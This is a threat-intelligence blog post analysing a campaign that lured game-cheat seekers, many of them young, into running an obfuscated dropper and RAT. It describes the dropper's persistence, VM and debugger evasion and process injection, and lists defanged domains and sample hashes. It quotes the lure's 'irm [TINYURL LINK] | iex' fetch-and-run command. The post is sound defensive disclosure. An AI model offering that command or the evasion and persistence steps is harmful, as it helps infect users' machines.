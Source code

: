 ```yaml
---
title: InfoStealer Turned Ransomware
categories:
 - Research
tags:
 - blog
 - Windows
 - Ransomware
 - research
 - RAT
date: 2025-10-16
description: Just when you thought a TA wouldn’t shift TTPs…
authors: 
- tr4ceang3l
- slavetomints
researchers: 
- slavetomints
- tr4ceang3l
- likerofjazz
- akithecatearedmerc
image:
  path: /assets/img/infostealer-turned-ransomware/odisrotz-github.png
  alt: GitHub profile of the TAs
  post: false
---
```


## Introduction
On the 19th of August 2025, an individual –here-by referred to as “V”– requested help on an unnamed Cybersecurity-oriented Discord server, seeking assistance regarding the recovery of a ransomware-infected system. V had claimed to be searching for a supposed “fixer” for a cheat related to Fortnite’s Retrac. Upon further investigation and triaging of V’s system, we discovered the initial social engineering domain `hxxps[://]retracfix[.]vercel[.]app` and a corresponding YouTube video that directed victims to the aforementioned domain. The domain intends to serve malware under the guise of a “system fixer” and a patch for Project Retrac.

![the infected system](/assets/img/infostealer-turned-ransomware/infected_system.jpg)
*V's infected system* 

## Initial Evaluations
During the initial investigation of the campaign, researchers at DeTraced identified the campaign as being led by a group of threat actors previously associated with the WebRAT malware. We are currently tracking this group as “Betray.” Upon identifying the potential threat actors, the investigation focused on the initial malware dropper, which was extracted from the domain linked to the infection.

The dropper was heavily obfuscated using various techniques, with a primary reliance on Base64 encoding and GZip compression to conceal its contents from the victim's antivirus software. The dropper’s first action upon execution is to perform hardware checks to detect the presence of common indicators for Virtual Machine (VM) environments. If these checks are successful, the malware will terminate its execution to avoid detection in a researcher’s environment.

If the sandbox evasion is successful and the dropper determines it is running on a legitimate victim’s system, it proceeds to execute a series of system commands via PowerShell. The dropper directs itself to the directory `C:\ProgramData` and checks if the folder `IntelDriver` exists. If the folder is not present, the dropper creates it. Once this directory is in place, the dropper creates a new file called `windows.cmd` and writes its own contents into it.

Next, the dropper reads the Base64-encoded content from any line in the `windows.cmd` file that begins with `::`, and decodes this content. The decoded data is saved to a file named `boot64x.w`. After completing this step, the dropper proceeds to establish persistence on the system by writing a VBScript to a file called `%computername%_windows64x_APZOacoasfjc.vbs`. This script is configured to run the dropper’s payload every minute by creating a Scheduled Task at the path `%AppData%\IntelDriverTask.xml`.

With persistence established, the dropper continues by setting up the main payload. It again reads from `windows.cmd`, specifically extracting data from the section prefixed with `rem`. This data is copied to a file named `netstat.c`. Once `netstat.c` is successfully written, the dropper decodes the Base64-encoded content, decompresses it using Gunzip, and stores the decompressed data into a `byte[]` object. Finally, this decoded content is saved as a valid binary to the file `AarSvcw.dll`.


Now that the main payload has been created, we can take a look at how the malware really operates. For the most part, the payload can be dissected with static analysis. The primary interests of the payload are its use of XOR to encrypt the strings with the single-byte key `0x5A`; using this key, we can decrypt most of the strings in the payload. As a fallback, the payload will recreate the Scheduled Task if, at some point, the file was deleted or moved to ensure persistence, the next stage is to consistently check if a debugger has been attached to the payload to which it will attempt to scramble the memory it’s in and immediately terminate itself to deter dynamic analysis, we can neutralise this check by simply patching the related function calls with `00`s. Once the persistence check has passed, the payload will proceed to extract another set of encrypted data stored within `boot64x.w` and loads it into memory, preparing itself to then inject the secondary payload into `explorer.exe`.

The contents of the secondary payload are currently unknown to us as we continue to investigate the malware and the affiliated campaign’s supply chain.

## Supply-chain Analysis
Betray uses YouTube videos that advertise cheats and "fixer" scripts for video games, aiming to get kids and teens who are looking for cheats for video games. The videos show the user running a script in Windows Command Prompt, and then it cuts to them playing the game with the supposed benefits of the cheat. During the video, the attacker will go over the installation process and will claim that the user's antivirus software will detect it, but it is a false positive. 

![the youtube videos](/assets/img/infostealer-turned-ransomware/videos.png)

This little bit of social engineering will be good enough to work on most users and trick the victim into interacting with the video description and following the website link, which brings them to an application hosted on Vercel. Betray has two different styles of websites. One type will have a download button for users to click on, and others will include a `irm [TINYURL LINK] | iex` command for the users to run on their systems.

![](/assets/img/infostealer-turned-ransomware/download-page.png)
![](/assets/img/infostealer-turned-ransomware/retrac-irm-iex.png)

In both cases, the goal is to get the user to download and run the batch or PowerShell scripts that Betray uses as a dropper for their malware.

Betray also includes directions on their websites for users to follow, which include having users ignore warnings from their antivirus software.

![](/assets/img/infostealer-turned-ransomware/download-instructions.png)

Once the victim follows these steps, the malware is now on the user's system and will execute. But where does the malware come from?

Inspecting the network connections when the file was downloaded revealed that it came from a release from a GitHub repository, so we went and checked it out.

![](/assets/img/infostealer-turned-ransomware/odisrotz-github.png)

This is one of multiple GitHub accounts found throughout this campaign. Inspection of the repositories either turned up an empty repository with 1-2 releases or a repository full of malware. Looking into the releases answered as to where the malware came from.

![](/assets/img/infostealer-turned-ransomware/odisrotz-releases.png)

Betray typically hides their malware in the repository releases, and when a victim clicks on the download button, it would redirect their browser to a link such as `hxxps[://]github[.]com/odisdrotz71/thermia/releases/download/Thermia/ThermiaPredictor[.]exe`. Further inspection of the GitHub account and its other repositories led to the discovery of more malicious websites for different games, including Roblox, a popular game among kids, Stake Mines, a minesweeper casino game, and Rainbow 6 Siege, an FPS shooter game.

Some of those sites looked like this:

![](/assets/img/infostealer-turned-ransomware/valex-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/valexexecutor-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/thermiapredictor.png)
![](/assets/img/infostealer-turned-ransomware/r6s-recoil.png)

It is worth noting that none of the other buttons on the websites would work; they would redirect back to the top of the page.

Betray has also leveraged GitHub Gists and `hxxps[://]filedoge[.]com` for distribution and hosting of samples; however, the `filedoge[.]com`web server has been offline since August 2025, and still is at the time of this report.

## Conclusion

After their stint with hiding RATs in video game cheats, the TA expanded into the malware selling scene, attempting to sell a strain known as XWorm on hxxps[://]rce[.]lol, and a batch script obfuscator on hxxps[://]betray[.]cfd. Analysis of bitcoin addresses found to be linked with the TA reveals that they never ended up receiving any payment through cryptocurrency, but they also used PayPal and Roblox gift cards.

Some sites remain active as we work to take them down, but most have been categorized by search engines as unsafe to browse.

## Indicators of Compromise

*For the full list of IOCs and YARA rules, please check out [DeTraced-Security/detection-rules](https://github.com/DeTraced-Security/detection-rules/tree/main/groups/betray)*

### RetracFix Sample:

```
Output DLL: AarSvcw.dll
Intermediates: windows.cmd, boot64x.w, netstat.c (used during reconstruction)

Hash – original BAT: 38aa08661729dd3c2ae3c1fb98f85f6aa4ff5e7385b0db2a65e9e85747848ad8
Hash - boot64x.w (Obfuscated): 5b1ed346d3a84543f527aa89135037d3bf56b9343b38cbeb340811da5d9a5e43 
Hash - AarSvcw.dll (Decoded): 2ce0dc292b81c72271bc9f0961271fac1e4d42b35292ce56b241174bbbeb4b46 
Hash - windows.cmd (Obfuscated): 07be8edabaa28e6d4ce30c5999b22aab53eac89a43fb036cd3cec15b63b7a81c
```

### Affiliated Samples
```
40b461edb9b2a18bc2ed8236789c1672  2fa.bat
7c92b6d50d1ab7ae24ee93d307c376f2  2faBeta.exe
bc1cfd626ef0eedcdcc46036b649c406  a.exe
780c2f5e127d12181b6650cededecd58  built-agbcfdxdfsdf.bat
161d57257ea219a030d2c902e85c5b18  CharmBootstrapper.bat
51b03d9bae4a53dd4e6210254084b806  ExecFix-2.bat
18bd43b2dfad0c247148db1afdf8462e  ExecFix.bat
220d8aa7e914dfbd52b29d25fbf5e9cd  LuckyGrid.exe
c8a8bf528e1ba3ff05ddd9368efd9f82  MinesPredictor.bat
b80538c353bd0a35e28b0b7c958a0689  r6_recoil.exe
0ee7449dd865145498ad23c43fba4754  retrac_fixer_loader.bat
da84fb352ca22ec2c94abd6f8851ea68  thermia.bat
e014911669d783a05005d48e9e6e8c2c  ThermiaPredictor-2.exe
8060fca6ac9ce3ebceba15f66db02443  ThermiaPredictor.exe
cf5005ebdc43ad19863b701025a4279b  ValexUpdater.exe
45bb4c63b0badff7721d2012b6482073  verbal.exe
fe5c839be7074513d2be80356e807fba  wcarrpt.bat
```

> Want to keep up with the DeTraced team? Come join our Discord [here!](https://discord.gg/ahecAvxwhh)
{: .prompt-info }
